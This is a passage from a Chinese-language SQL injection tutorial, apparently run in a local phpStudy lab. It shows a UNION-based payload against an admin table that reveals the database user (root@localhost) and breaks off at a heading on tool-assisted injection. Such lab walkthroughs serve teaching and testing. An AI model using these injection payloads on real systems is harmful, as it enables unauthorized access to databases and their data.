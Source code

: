 <pre><code>C:/Program Files/phpStudy/MySQL/
</code></pre><p>如下图：</p>
<p><img src="picture/img (60).png" alt="Alt text"></p>
<p>我们尝试在<code>1</code>的显示位查询当前数据库用户，实际语句为：</p>
<pre><code>select user()
</code></pre><p>直接在UNION后面的查询把<code>1</code>替换为<code>user()</code>,理想效果是在访问之后，原先1的位置返回了当前数据库用户。</p>
<p>实际执行的sql语句为：</p>
<pre><code>SELECT * FROM admin WHERE id=1 union select 1,user(),3
</code></pre><p>于是得到当前数据库用户为：</p>
<pre><code>root@localhost
</code></pre><p>如下图：</p>
<p><img src="picture/img (61).png" alt="Alt text"></p>
<p>如此，我们已经可以手工在注入点通过利用sql注入漏洞查询到一些敏感的数据库信息。</p>
<h4 id="-3-sql-">步骤3：利用工具进行sql注入攻击</h4>